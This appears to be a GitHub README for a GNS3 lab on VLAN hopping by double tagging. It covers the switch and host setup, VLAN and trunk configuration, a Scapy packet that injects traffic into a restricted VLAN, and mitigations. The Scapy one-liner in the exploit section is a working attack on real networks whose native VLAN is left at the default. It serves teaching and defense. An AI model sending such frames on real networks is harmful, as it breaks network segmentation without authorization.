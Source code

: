 # VLAN Hopping: Double Tagging
Double tagging is a Layer 2 network attack technique that exploits the behavior of 802.1Q trunk ports and native VLAN handling on switches. In this attack, a threat actor crafts Ethernet frames with two VLAN tags: an outer tag that matches the native VLAN (commonly VLAN 1) and an inner tag for the target VLAN they wish to access. When the packet is sent from an access port belonging to the native VLAN, the first switch removes the outer tag and forwards the frame onto the trunk. The second switch, upon receiving the now-single-tagged frame, interprets the remaining inner tag and forwards it to the corresponding VLAN. This allows the attacker to send traffic into VLANs they shouldn't have access to, even though their physical port is not assigned to that VLAN. Double tagging is difficult to detect because return traffic typically can't follow the same path back, making it a one-way attack, useful primarily for injecting packets into restricted VLANs.

> This lab was inspired by *Practical IoT Hacking* (O'Reilly), Chapter 4: **Network Assessments**, Section *"Hopping into the IoT Network"*.

## Lab Topology
![Lab Topo](assets/double-tagging-topo.png)

## Initial Setup
### Switch Port Layout
| Switch   | Port    | Connected Device | VLAN    | Port Mode             |
|----------|---------|------------------|---------|-----------------------|
| SWITCH1  | Et0/0   | SWITCH2          | N/A     | Trunk (native VLAN 1) |
| SWITCH1  | Et0/1   | CAMERA_01        | VLAN 20 | Access                |
| SWITCH1  | Et0/2   | ATTACKER         | VLAN 1  | Access                |
| SWITCH2  | Et0/0   | SWITCH1          | N/A     | Trunk (native VLAN 1) |
| SWITCH2  | Et0/1   | CENTRAL_SERVER   | VLAN 20 | Access                |

### VPCS Static IPv4 Configuration
To keep the lab simple, both **CAMERA_01** and **CENTRAL_SERVER** are implemented using [VPCS](https://docs.gns3.com/docs/emulators/vpcs/) (Virtual PC Simulator) appliances. This provides a lightweight way to simulate basic IoT device connectivity within the network. The following command assigns an IP address and ensures the configuration persists across reboots.
<pre>
  VPCS> ip 192.168.0.x/24
  VPCS> save
</pre>

### Docker Container IPv4 Configuration
The **ATTACKER** machine is a Docker container. The imaged used in this lab is [finchsec/scapy](https://hub.docker.com/r/finchsec/scapy), which gives access to the Scapy program for crafting custom network packets to perform this attack. Configuring IP addresses for Docker appliances in GNS3 is easy as shown below:

**Right-click**, then select `Edit Config` from the context menu.

![Attacker Interfaces](assets/attacker-interfaces.png)

### Cisco IOS
**SWITCH1** and **SWITCH2** are virtual Cisco IOS Layer 2 devices. You can use either the IOSvL2 or IOU L2 GNS3 appliance templates for this lab. They should work as standard switches 'out of the box', no configurations necessary.

## Verify Connectivity
CAMERA_01 should be able to ping CENTRAL_SERVER.

![Camera Ping](assets/camera-server-ping.gif)

ATTACKER should be able to ping both CAMERA_01 and CENTRAL_SERVER.
<pre>
  >>> packet = IP(dst='192.168.0.x')/ICMP()
  >>> sr1(packet).show()
</pre>
![Attacker Ping](assets/attacker-connectivity-verify.gif)

## IOS VLAN Configuration
Create a new VLAN for the IoT devices with an ID of 20. I named it BLUE to match the network topology diagram.
<pre>
  SWITCH1> enable
  SWITCH1# configure terminal
  SWITCH1(config)# vlan 20
  SWITCH1(config-vlan)# name BLUE
  SWITCH1(config-vlan)# exit
  SWITCH1# show vlan brief
  
  VLAN Name                             Status    Ports
  ---- -------------------------------- --------- -------------------------------
  1    default                          active    Et0/0, Et0/1, Et0/2, Et0/3
                                                  Et1/0, Et1/1, Et1/2, Et1/3
                                                  Et2/0, Et2/1, Et2/2, Et2/3
                                                  Et3/0, Et3/1, Et3/2, Et3/3
  20   BLUE                             active
</pre>

Assign BLUE to switchport Et0/1 (CAMERA_01).
<pre>
  SWITCH1# configure terminal
  SWITCH1(config)# interface Et0/1
  SWITCH1(config-if)# switchport mode access
  SWITCH1(config-if)# switchport access vlan 20
  SWITCH1(config-if)# exit
  SWITCH1# show vlan brief
  
  VLAN Name                             Status    Ports
  ---- -------------------------------- --------- -------------------------------
  1    default                          active    Et0/0, Et0/2, Et0/3, Et1/0
                                                  Et1/1, Et1/2, Et1/3, Et2/0
                                                  Et2/1, Et2/2, Et2/3, Et3/0
                                                  Et3/1, Et3/2, Et3/3
  20   BLUE                             active    Et0/1
</pre>

Configure interface Et0/0 as a static trunk using IEEE 802.1Q encapsulation. This protocol is the industry standard for VLAN tagging.
<pre>
  SWITCH1# configure terminal
  SWITCH1(config)# interface Et0/0
  SWITCH1(config-if)# switchport trunk encapsulation dot1q
  SWITCH1(config-if)# switchport mode trunk
  SWITCH1(config-if)# switchport trunk allowed vlan all
  SWITCH1(config-if)# exit
  SWITCH1# show interfaces trunk

  Port        Mode             Encapsulation  Status        Native vlan
  Et0/0       on               802.1q         trunking      1

  Port        Vlans allowed on trunk
  Et0/0       1-4094

  Port        Vlans allowed and active in management domain
  Et0/0       1,20

  Port        Vlans in spanning tree forwarding state and not pruned
  Et0/0       none
</pre>
> Note how the **Native vlan** value is 1 by default.

Repeat these step on SWITCH2 to assign CENTRAL_SERVER to VLAN 20.

## Verify Subnet Segmentation
Assuming the VLAN was configured correctly, CAMERA_01 should still be able to ping CENTRAL_SERVER...

![Camera Ping](assets/camera-server-ping.gif)

<details>
  <summary>
    VLAN Tag Removal Demonstrated...
  </summary>

  > Start a Wireshark capture on the link between SWITCH1 and SWITCH2. Then, initiate another ping from CAMERA_01 to CENTRAL_SERVER. In the `Packet Details` pane, observe that the switch inserts a 4-byte 802.1Q VLAN tag immediately after the Ethernet header, indicating the frame originated from a VLAN 20 access port.
  > 
  > ![Ping VLAN Tag](assets/wireshark-switch1-switch2-annotated.png)
  > 
  > As the packet is forwarded to its destination, SWITCH2 removes the VLAN tag before delivering it to the receiving device.
  >
  > ![Ping VLAN Tag Removed](assets/wireshark-switch2-server.png)
</details>

However, ATTACKER should no longer be able to ping CAMERA_01 or CENTRAL_SERVER.
<pre>
  >>> packet = IP(dst='192.168.0.x')/ICMP()
  >>> sr1(packet).show()
</pre>
![Attacker Ping Fail](assets/attacker-ping-fail.gif)

As can be seen, the ICMP echo packets never reach CENTRAL_SERVER.

![](assets/wireshark-server-segmentation.png)



## Exploit
Craft a double-tagged ICMP packet with Scapy

<pre>
  >>> packet = Ether(dst='ff:ff:ff:ff:ff:ff')/Dot1Q(vlan=1)/Dot1Q(vlan=20)/IP(dst='192.168.0.250')/ICMP()
  >>> sendp(packet, iface="eth0")
  .
  Sent 1 packets.
</pre>

## Mitigations
You can prevent double-tagging attacks by:
- Setting the native VLAN to an unused VLAN
- Forcing all trunks to tag all traffic (i.e., vlan dot1q tag native)
- Avoiding VLAN 1 for any user-access ports
- Shutdown unused ports / sticky mac addresses / port security etc
